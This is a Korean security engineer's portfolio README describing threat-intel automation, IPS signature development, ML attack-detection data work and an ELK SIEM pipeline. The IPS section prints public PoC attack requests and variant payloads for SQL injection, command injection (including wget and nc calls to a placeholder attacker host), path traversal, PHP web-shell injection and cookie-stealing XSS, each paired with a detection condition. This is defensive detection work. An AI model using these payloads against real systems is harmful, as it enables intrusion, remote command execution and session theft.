



<div align="center">

# 🛡️ Security Engineer Portfolio


`IPS Signature` · `AI for Security` · `SIEM / ELK` · `Security Automation`

</div>

<br>

## 👋 About

공격을 "막는 규칙"보다 "왜 그 조건이어야 하는가"를 먼저 고민합니다.

- 실제 CVE의 공개 PoC를 분석해 **공격 변형까지 함께 잡는 IPS 시그니처**를 설계했습니다.
- 시그니처가 놓치는 Unknown 공격을 잡기 위해 **ML 탐지 모델의 학습 데이터 파이프라인**을 구축했습니다.
- 탐지 로직을 **ELK 기반 SIEM**으로 옮겨 로그 수집부터 상관 분석까지 직접 구성했습니다.
- 반복적인 위협 정보 확인 업무를 **n8n + LLM**으로 자동화해 자산 기반 경보 체계를 만들었습니다.

<br>

## 💻 Experience & Education

- **대학 정보보호연구실 학부연구생** `2024.05 ~ 2025.12`
  - 데이터 무결성 추적 및 AI 보안 거버넌스 플랫폼 연구·개발
  - 국내·국제 학술대회 논문 발표 2건
- **크래프톤(KRAFTON) 하계 웹 개발 프로그램** `2025.08`
  - Flask 기반 백엔드 API 설계 및 AWS 환경 웹 서비스 배포
- **UCSD Qualcomm Institute AI Study** `2025.07`
  - **GCP ML Professional 자격 취득** 및 Vertex AI / TensorFlow 실습
  - 신용카드 이상 거래 탐지 시스템(MLOps) 프로젝트 수행
- **Uppsala Security - Bootcamp Programme (Singapore)** `2024.08`
  - 글로벌 블록체인 구조 학습 및 비즈니스 모델 설계
  - 빅테크 현직자 멘토링을 통한 기술 사업화 전략 수립
- **K-Software Empowerment BootCamp** `2023.12 ~ 2024.11`
  - Java Spring 기반 백엔드 및 웹 서비스 개발자 과정 수료

<br>

## 📝 Publications

- **ICACT 2026** · AI 공급망 무결성 거버넌스 프레임워크 관련 국제 논문 게재 및 발표
- **KIIT 학술대회** · 블록체인 기반 전자 부품 단위 이력 추적 시스템 논문 발표

<br>

## 📚 Certification

- **Google Cloud Certified Professional Machine Learning Engineer**
- **정보처리기사**
- **TOEIC Speaking IH**

<br>

## 🔧 Security Skills

| 분야 | 사용 기술 |
|---|---|
| **Network Security / IPS** | IPS Signature 개발, Snort, Snort ML, MOLOCH |
| **SIEM / Log Analysis** | Elasticsearch 8.15, Kibana, KQL, Aggregation Query, `_bulk` API |
| **Security Automation** | n8n, PostgreSQL, Docker Compose |
| **AI for Security** | TF-IDF (char n-gram), LSTM, Groq / LLaMA-3.3-70B, YARA |
| **Language** | Python (`re`, `requests`), SQL, JavaScript (n8n Code node) |
| **Offensive / Test** | Kali Linux, AutoSet, DVWA, sqlmap, Commix, ffuf, SecLists |
| **Framework** | MITRE ATT&CK |

<br>

## 🛠️ Tech Skills

| Category | Stack |
| ------- | ---- |
| OS |     |
| Languages |      |
| Security · SIEM |     |
| AI · ML |   |
| Client |     |
| Backend |     |
| Database |     |
| Cloud · Infra |     |
| Blockchain |      |
| Dev Tools |      |
| Tools |   |

<br>

## 📂 Projects

| # | 프로젝트 | 분류 | 기간 |
|:-:|---|---|---|
| 1 | [보안 위협 자동 수집·분석·경보 파이프라인](#1-보안-위협-자동-수집분석경보-파이프라인) | Security Automation / Threat Intelligence | 2026.02 |
| 2 | [IPS Signature Development](#2-network-security--ips-signature-development) | Vulnerability Analysis / IPS | 2026.03 ~ 2026.11 |
| 3 | [Snort ML 기반 웹 공격 탐지 연구](#3-snort-ml-기반-웹-공격-탐지-및-상세-분석-시스템-연구) | AI for Security / Network Security | 2026.06 ~ 2026.11 |
| 4 | [ELK 기반 웹 공격 탐지 파이프라인](#4-elk-기반-웹-공격-탐지-파이프라인-구축) | SIEM / Correlation Analysis | 2026.10 |

---

## 1. 보안 위협 자동 수집·분석·경보 파이프라인

> `Security Automation` `Threat Intelligence` `n8n` `LLM` `PostgreSQL` · 2026.02
> 🔗 **Repository:** [n8n-security-news-bot](https://github.com/minchaeki/n8n-security-news-bot)

### 📌 배경 및 문제

- 매일 수십 건씩 올라오는 보안 뉴스를 담당자가 **직접 읽고**, 우리 자산에 해당하는지 **수동으로 판단**해야 했습니다.
- CVE와 내부 자산의 연관성을 확인하는 데 시간이 걸려 **실시간 대응이 불가능**했습니다.
- 키워드 필터만으로는 새로운 형태의 위협 패턴을 놓치기 쉬웠습니다.

### 🏗️ 아키텍처



### ⚙️ 구현 내용

| 단계 | 구현 |
|---|---|
| **수집** | Schedule Trigger로 매일 국내외 RSS 4개 소스 동시 수집<br/>(DailySecu, TheHackerNews, BleepingComputer, KISA) → 단일 소스 편향 해소 |
| **분석** | AI Agent(Groq / LLaMA-3.3-70B)가 기사에서 **CVE ID · 심각도 · 영향 서비스 · 대응 방안**을 구조화 추출 |
| **저장** | 구조화된 위협 정보를 PostgreSQL에 적재 |
| **매칭** | 내부 자산 목록(CMDB)과 SQL로 자동 대조 |
| **경보** | 매칭 시 `security_alerts`에 기록 후 이메일 즉시 발송 |

### 🗄️ DB 설계: 위협 · 자산 · 경보 분리

단일 테이블로는 **위협 → 자산 → 경보** 이력을 추적할 수 없어 3개 테이블로 분리하고, 탐지 전 과정의 이력을 남겼습니다.

| 테이블 | 역할 |
|---|---|
| `vulnerability_news` | LLM이 구조화한 위협 정보 (CVE ID, 심각도, 영향 서비스) |
| `cmdb` | 내부 자산 목록 |
| `security_alerts` | 매칭 결과와 경보 발송 이력 |

### ✅ 성과

- 4개 보안 소스 **일일 자동 수집·분류**
- CVE 기반 **자산 위협 자동 매칭**
- 실시간 경보 파이프라인 및 보안 뉴스 메일 발송 완성

### 🔭 확장 방향

- NVD API 연동으로 공식 CVSS 점수 반영
- Shodan 연동으로 외부 노출 자산 확인
- ML 기반 탐지로 고도화

---

## 2. Network Security / IPS Signature Development

> `Vulnerability Analysis` `Network Security` `IPS Signature` · 2026.03 ~ 2026.11

### 📌 개요

실제 공개된 웹 취약점의 **PoC를 분석**하고, 정상 요청과 공격 요청을 비교해 **IPS 탐지 시그니처**를 개발했습니다.
단일 PoC만 잡는 것이 아니라, **같은 취약점을 노리는 공격 변형 4종을 하나의 조건으로 탐지**하는 것을 목표로 했습니다.

### 🧭 분석 방법


### 📋 탐지 시그니처 요약

| 공격 유형 | 대상 | 취약 지점 | 핵심 탐지 조건 |
|---|---|---|---|
| SQL Injection | Event Student Attendance System 1.0 | `student` (GET, 인증 불필요) | 숫자형 값 안의 **따옴표** |
| Command Injection | D-Link DI-8003 (FW 16.07.16A1) | `path` (GET, 인증 필요) | URL에 나올 이유가 없는 **셸 메타문자** |
| Path Traversal | Oracle Retail Xstore Office 19.0.5 ~ 23.0.1 | `imageId` (GET, 인증 불필요) | **연속된 점 + 경로 구분자** (인코딩 포함) |
| Code Injection | CE Phoenix v1.0.8.20 | `file_contents` (POST, 관리자 인증) | Body 내 **PHP 여는 태그** |
| Reflected XSS | WP-PManager WordPress Plugin ≤ 1.2 | `id`, `_wp_http_referer` (GET) | **속성 이탈 문자** |

<details>
<summary><b>🔍 SQL Injection: 따옴표로 변형 4종 탐지</b></summary>

<br>

**취약점:** `student` 매개변수 값이 이스케이프 없이 쿼리에 삽입되어, 인증 없이 원격에서 DB를 조회·변조할 수 있습니다.

- 발생 위치: `/endpoint/delete-student.php`

```http
# 정상 요청
GET /event-student-attendance/endpoint/delete-student.php?student=3

# 공격 요청 (Boolean-based Blind)
GET /event-student-attendance/endpoint/delete-student.php?student=3'%20RLIKE%20(SELECT%20(CASE%20WHEN%20(6164=6164)%20THEN%203%20ELSE%200x28%20END))--
```

| 변형 | 페이로드 예시 |
|---|---|
| Boolean-based Blind | `' RLIKE (SELECT (CASE…` |
| Error-based | `' AND EXTRACTVALUE(…)--` |
| Stacked Queries | `';SELECT SLEEP(5)#` |
| Time-based Blind | `' AND (SELECT…SLEEP(5))` |

**탐지 포인트:** `student`는 숫자형 값이므로 SQL 키워드가 아니라 **값 안의 따옴표**를 조건으로 잡았습니다. sqlmap으로 확인한 4가지 유형 모두 따옴표로 쿼리 컨텍스트를 벗어나므로 하나의 조건으로 탐지됩니다.

</details>

<details>
<summary><b>🔍 Command Injection: 셸 메타문자로 탐지</b></summary>

<br>

**취약점:** 펌웨어 업그레이드 시 `path` 값이 셸 명령에 그대로 연결되어, Command Substitution으로 임의의 OS 명령을 실행할 수 있습니다.

- 발생 위치: `/upgrade_filter.asp`

```http
# 정상 요청
GET /upgrade_filter.asp?path=http://127.0.0.1/fw.bin

# 공격 요청 (백틱 치환, 공개 PoC)
GET /upgrade_filter.asp?path=http://`ps%20%3E%20/rce.txt`
```

| 변형 | 페이로드 예시 |
|---|---|
| 백틱 치환 | `` `ps > /rce.txt` `` |
| `$()` 치환 | `$(id > /tmp/out)` |
| 세미콜론 연결 | `x; wget http://attacker/s` |
| 파이프 | `x \| nc attacker 4444` |

**탐지 포인트:** 정상 값은 펌웨어 URL이므로, **URL에 나올 이유가 없는 셸 메타문자**를 조건으로 잡았습니다. 메타문자마다 탐지 범위와 오탐 가능성이 달라, 조건을 넓힐 때는 정상 트래픽 검증이 필요합니다.

</details>

<details>
<summary><b>🔍 Path Traversal: 인코딩 변형 대응</b></summary>

<br>

**취약점:** `imageId` 값이 경로 검증 없이 파일 시스템에 매핑되어, 웹 루트 밖의 서버 파일을 인증 없이 읽을 수 있습니다.

- 발생 위치: `/xstoremgwt/cheetahImages`

```http
# 정상 요청
GET /xstoremgwt/cheetahImages?imageId=product.png

# 공격 요청 (Windows 백슬래시, 공개 PoC)
GET /xstoremgwt/cheetahImages?imageId=..\..\..\..\windows\win.ini
```

| 변형 | 페이로드 예시 |
|---|---|
| 백슬래시 | `..\..\..\windows\win.ini` |
| 슬래시 | `../../../etc/passwd` |
| URL 인코딩 | `%2e%2e%2f%2e%2e%2fetc…` |
| 이중 URL 인코딩 | `%252e%252e%252f…` |

**탐지 포인트:** 취약 매개변수 값에서 **연속된 점과 경로 구분자의 조합**을 조건으로 잡았습니다. 정규화 전 원본 URI에서 검사하므로, **URL 인코딩된 형태도 조건에 함께** 넣었습니다.

</details>

<details>
<summary><b>🔍 Code Injection: PHP 여는 태그로 탐지</b></summary>

<br>

**취약점:** 관리자 패널의 언어 파일 편집 기능이 내용 검증 없이 저장을 허용합니다. PHP 코드를 삽입하면 메인 페이지 접근만으로 실행됩니다.

- 발생 위치: `/admin/define_language.php`

```http
# 정상 요청
POST /admin/define_language.php?…&action=save
formid=token123456&file_contents=action

# 공격 요청 (system() 호출, 공개 PoC)
POST /admin/define_language.php?…&action=save
formid=token123456&file_contents=%3C%3Fphp+echo+system%28%27whoami%27%29%3B
```

| 변형 | 페이로드 예시 |
|---|---|
| `system()` | `<?php echo system('…');` |
| 웹셸 삽입 | `<?php system($_GET[…]);` |
| `exec()` | `<?php echo exec('id');` |
| `passthru()` | `<?php passthru('ls …');` |

**탐지 포인트:** Request Body의 `file_contents` 값에서 **PHP 여는 태그**를 조건으로 잡았습니다. 실행 함수가 달라져도 여는 태그는 공통이라 4종 모두 탐지됩니다.

</details>

<details>
<summary><b>🔍 Reflected XSS: 속성 이탈 문자로 탐지</b></summary>

<br>

**취약점:** `id` 값이 HTML 이스케이프 없이 페이지에 그대로 반영됩니다. 조작된 링크를 관리자가 클릭하면 세션 쿠키 탈취로 이어집니다.

- 발생 위치: `/wp-admin/admin.php`

```http
# 정상 요청
GET /wp-admin/admin.php?page=wp-pmanager-new&id=$resultsset->id&_wp_http_referer=1

# 공격 요청 (script 태그, 공개 PoC)
GET /wp-admin/admin.php?page=wp-pmanager-new&id=$resultsset->id"></script><script>alert(1)</script><script>
```

| 변형 | 페이로드 예시 |
|---|---|
| script 태그 | `"><script>alert(1)…` |
| 쿠키 탈취 | `<script>…document.cookie` |
| onerror 핸들러 | `">` |
| onmouseover 속성 | `" onmouseover="alert(…)` |

**탐지 포인트:** 취약 매개변수 값에서 **속성을 벗어나는 문자**를 조건으로 잡았습니다. `script` 태그를 쓰지 않는 `onerror`, `onmouseover` 변형도 같은 조건으로 탐지됩니다.

</details>

### 💡 배운 점

- 공격 키워드를 나열하는 대신 "정상 값에는 절대 나오지 않는 문자"를 찾으면, 적은 조건으로 더 많은 변형을 잡을 수 있습니다.
- 조건이 넓어질수록 오탐 위험이 커지므로, **정상 트래픽과 함께 검증**하는 과정이 반드시 필요합니다.

---

## 3. Snort ML 기반 웹 공격 탐지 및 상세 분석 시스템 연구

> `AI for Security` `Network Security` `Python` `YARA` · 2026.06 ~ 2026.11 · **팀 프로젝트**

### 📌 문제 정의

| 문제 | 내용 |
|---|---|
| **ML 탐지 이벤트의 가시성 부재** | Snort ML이 탐지해도 공격 유형과 상세 분석 결과를 볼 수 없어 대응이 어려움 |
| **미지 취약점의 사각지대** | 시그니처에 정의되지 않은 Unknown 공격을 ML 모델로 탐지 시도 |

- **탐지 대상 5유형:** SQL Injection, Command Injection, XSS, Path Traversal, Code Execution
- **지원 범위:** HTTP URI Query, URL Encoded Request Body, Multipart/Form-data

### 🧠 팀 모델 설계 (참고)

| 구성 | 내용 |
|---|---|
| **TF-IDF 벡터화** | 문자 단위 n-gram(2~4)으로 공격 특수문자 패턴 수치화 |
| **LSTM** | 순서와 맥락이 중요한 공격 코드의 시퀀스 패턴 학습 |
| **MPSE 전처리 + LRU Cache** | 추론 대상만 선별하고, 동일 입력은 재추론 생략 |

### 🙋 내 역할

> **학습 데이터 수집·전처리 담당** (Command Injection · Code Execution · XSS)
> 수집부터 모델 실행·결과 로그 정리까지 **Python 파이프라인으로 자동화**

### 📥 데이터 수집: 다중 소스

| # | 소스 | 방법 |
|:-:|---|---|
| 1 | **Commix** | 격리 환경(DVWA)에서 자동화 공격 도구를 구동해 실트래픽 생성 |
| 2 | **ffuf · SecLists** | 퍼저와 공개 사전으로 공격 페이로드 추가 수집 |
| 3 | **공개 저장소** | Kaggle, fuzzdb, PayloadsAllTheThings 등에서 수집 |
| 4 | **실환경 추출** | cmd 특수문자·명령어 조합을 코드로 생성 → API로 실트래픽 payload와 대조·추출 |
| 5 | **실트래픽** | MOLOCH 시스템으로 트래픽 데이터 추가 수집 |

### 🔄 전처리 파이프라인 (Python)


- **미탐 제거:** 정상 트래픽(광고·추적·학술검색)을 YARA로 식별·제거하고, 매 단계 교차 검증으로 **진짜 공격이 삭제되지 않도록** 했습니다.
- **토큰 정규화:** IP·랜덤 ID·해시 같은 가변값을 심볼로 정규화(`{{ip}}`, `{{an:33}}`)해 중복 계산을 막고, 고유 패턴 수를 정확히 산출했습니다.
- **1차 전처리:** 결측값 제거 → HTML/URL 디코딩 → 중복 제거 → Stratified 분할

```text
# 데이터 형식
sentence : 공격 코드 / 일반 문장
label    : 1 = 공격, 0 = 정상
```

### 🐞 트러블슈팅: 오탐 원인 분석, 삭제 없이 정제

| 단계 | 내용 |
|---|---|
| **현상** | Command Injection 데이터가 "SQLi로 잡힌다"는 오탐 발생 |
| **검증** | 실제 SQLi 문법이 섞였는지 정규식으로 전수 검증 → **0건** |
| **원인** | 따옴표 + `\|\|` 인접 패턴이 SQLi 메타문자와 표면 구조가 겹침 |
| **조치** | 핵심 학습 신호(`\|\|`, 백틱, `$()`)는 유지하고 **오탐 유발 토큰만 제거** |
| **결과** | 7,098줄 → 7,102줄, **삭제 0건** (문제 범위 66줄 + 특수 2줄 특정) |

정제 방향 3가지를 비교한 뒤 결정했습니다.

| 방향 | 내용 | 판단 |
|---|---|---|
| 1. 파이프라인 분류 로직 수정 | 다른 탐지에 영향을 줄 수 있음 | ❌ 리스크 큼 |
| 2. `\|\|` 전체를 다른 연산자로 치환 | Command Injection의 핵심 학습 신호 훼손 | ❌ |
| 3. **문제 토큰만 제거** | "이 토큰이 없어도 CI 페이로드로 유효한가?"를 기준으로 판단 | ✅ **선택** |

### ✅ 성과

- 대용량 데이터셋(**약 7.5만 건**)을 수 초 내 처리하는 파이프라인 구현
- 중복 제거율 **약 60%**, 토큰화 기준 순수 신규 공격 패턴 정량 산출
- Command Injection 데이터 **7,102건 정제 완료** (XSS 수집 완료, 전처리 진행 중)
- 🎯 **실탐지:** 담당한 RCE 학습 데이터로 학습된 모델이 실트래픽에서 **php2shell 공격 탐지**
  (CVE-2026-109618, CVE-2026-109619)

### 🤝 데이터 담당자로서의 기여

1. **학습 데이터 설계:** RCE·Command Injection·XSS 공격 구문을 수집·정제해 모델이 학습할 신호를 구축
2. **탐지 확인:** 시그니처가 놓칠 수 있는 변형 공격을 ML 모델이 실트래픽에서 탐지함을 확인
3. **이벤트 분석:** 미탐지 로그의 payload를 분석해 미탐지 payload를 따로 추출, 재학습 데이터 생성

> **데이터 수집 → 전처리 → 모델 탐지 → 이벤트 분석**까지 하나의 흐름으로 연결

---

## 4. ELK 기반 웹 공격 탐지 파이프라인 구축

> `SIEM` `ELK Stack` `Threat Detection` `Correlation Analysis` · 2026.10

### 📌 개요

Docker로 Elasticsearch·Kibana를 구축하고, 웹서버 로그를 **수집·분류·탐지·상관 분석**하는 SIEM 환경을 직접 구성했습니다.
Project 2에서 만든 **IPS 시그니처 탐지 로직을 Python 코드로 이식**해 로그 단위 공격 분류에 활용했습니다.

### 🏗️ 수집 파이프라인



- **적재:** HTTP `_bulk` API로 구조화 JSON 전송
- **분류 기준:** IPS 시그니처 탐지 로직을 코드로 이식 (특수문자·명령어 패턴)
- **탐지:** KQL 쿼리 + 임계치 기반 상관 룰

### 🔎 단계별 결과

#### ① 로그 수집·적재: 전체 49건
AutoSet `access.log`를 Python으로 파싱해 `attack_type` · `src_ip` · `url` · `status` 필드로 구조화 적재했습니다.
Kibana Discover에서 공격·정상 요청을 한 화면에서 조회할 수 있습니다.

#### ② 공격 분류
요청별 공격 유형 태깅 (SQLi · XSS · Command Injection · Path Traversal 등)

#### ③ 공격 탐지: 15건 필터링
```kql
not attack_type : "normal"
```
→ 49건 중 **공격 15건**만 탐지 (Command Injection, XSS 등)

#### ④ 상관 분석: 다중 공격 시도 IP 탐지
같은 IP가 임계치를 초과해 여러 유형의 공격을 시도하면 침투 시도로 판단합니다.
`src_ip`별 공격 횟수·유형을 Aggregation으로 집계해 **임계치(5회) 초과 출발지를 자동 식별**했습니다.

| 공격 유형 | 횟수 | 비율 |
|---|:-:|:-:|
| AuthAttempt | 7 | 46.7% |
| XSS | 3 | 20.0% |
| CommandInjection | 2 | 13.3% |
| InfoDisclosure | 1 | 6.7% |
| PathTraversal | 1 | 6.7% |
| SQLi | 1 | 6.7% |
| **합계** | **15** | |

> **판정:** 출발지 IP 1개 · 15회 · 6종 공격 유형 → **스캐닝 / 침투 시도**
> **MITRE ATT&CK:** `T1595` Active Scanning

### 🧰 기술 스택

`Docker Compose` · `Elasticsearch 8.15` · `Kibana` · `Python (re, requests)` · `KQL` · `Aggregation Query` · `AutoSet` · `Kali Linux`

---

## 🧩 프로젝트 간 연결



